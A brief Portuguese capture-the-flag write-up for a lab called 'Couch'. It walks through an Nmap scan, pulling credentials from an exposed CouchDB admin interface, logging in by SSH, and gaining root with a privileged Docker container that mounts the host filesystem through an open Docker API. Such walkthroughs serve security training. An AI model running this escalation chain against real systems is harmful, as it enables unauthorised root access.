





# _**Couch CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p [port_range] -A -T5 [ip_address]
> ```


Após a enumeração, temos já algumas respostas  
Com um pouco de pesquisa, temos que:
* _path to all databases_: _all_dbs
* _path to admin_: _utils

Investigando [ip_address]:5984/_utils, temos credenciais  
Vamos usar para tentar login via SSH  



Invesigando maneiras de escalar privilégios, encontramos o seguinte no arquivo **.bash_history**  



Vamos executar o comando abaixo para entrar no _docker_
> ```bash
> docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
> ```
Somos _root!_  
Para podermos encontar o arquivo _.txt_, vamos executar o comando abaixo
> ```bash
> find / -type f -name root.txt
> ```


Basta ir atrás das flags agora!
